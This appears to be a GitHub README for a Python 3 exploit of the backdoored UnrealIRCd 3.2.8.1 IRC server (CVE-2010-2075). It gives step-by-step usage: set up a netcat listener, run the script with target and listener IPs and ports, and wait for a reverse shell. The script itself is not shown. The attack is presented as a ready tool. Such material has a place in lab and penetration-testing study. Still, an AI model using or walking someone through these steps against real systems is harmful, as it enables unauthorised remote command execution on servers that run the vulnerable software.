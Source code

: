 # UnrealIRCD-3.2.8.1-Backdoor
UnrealIRCd 3.2.8.1 backdoor command execution exploit in Python 3 (CVE-2010-2075).

# Description
[UnrealIRCd](https://www.unrealircd.org/) version 3.2.8.1 contains a trojan horse which allows remote attackers to execute arbitrary commands ([CVE-2010-2075](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-2075)).

# Usage
```
nc -lp 4444
```

Execute the script, providing the following positional arguments:
```
python3 script.py <target> <tport> <listener> <lport>
```
- `<target>` Target host IP address.
- `<tport>` Target host port number.
- `<listener>` Listening host IP address.
- `<lport>` Listening host port number.

# Example
Setup a Netcat listener on your local machine:
```
nc -nlvp 4444
```

Run the script against a target machine at `192.168.0.0` TCP port `6667`:
```
python3 script.py 192.168.0.0 6667 192.168.1.0 4444
```

Wait a minute and the Netcat listener should receive a reverse shell.
